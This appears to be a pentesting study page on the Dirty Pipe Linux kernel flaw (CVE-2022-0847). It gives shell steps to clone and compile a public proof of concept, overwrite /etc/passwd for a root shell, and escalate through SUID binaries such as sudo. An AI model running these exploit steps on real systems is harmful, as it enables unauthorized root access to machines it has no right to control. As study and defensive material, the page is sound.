

repository: amandaguglieri/hackinglife · page: dirty-pipe/index.html · generator: mkdocs

---
title: Dirty Pipe
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
  - linux
---
# Dirty Pipe

A vulnerability in the Linux kernel, named [Dirty Pipe](https://dirtypipe.cm4all.com/) ([CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847)), allows unauthorized writing to root user files on Linux.

Technically, the vulnerability is similar to the [Dirty Cow](dirty-cow.md) vulnerability discovered in 2016. All kernels from version `5.8` to `5.17` are affected and vulnerable to this vulnerability.

In a nugshell: this vulnerability allows a user to write to arbitrary files as long as he has read access to these files. It is also interesting to note that Android phones are also affected. Android apps run with user rights, so a malicious or compromised app could take over the phone.

Downloading a POC: [https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)

```shell-session
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits
bash compile.sh
```


After compiling the code, we have two different exploits available:

- The first exploit version (exploit-1) modifies the /etc/passwd and gives us a prompt with root privileges. For this, we need to verify the kernel version and then execute the exploit:

```shell-session
uname -r

./exploit-1
```

- With the help of the 2nd exploit version (`exploit-2`), we can execute SUID binaries with root privileges. However, before we can do that, we first need to find these SUID binaries. For this, we can use the following command:

```shell-session
 find / -perm -4000 2>/dev/null
```

Then we can choose a binary and specify the full path of the binary as an argument for the exploit and execute it.

```shell-session
./exploit-2 /usr/bin/sudo
```
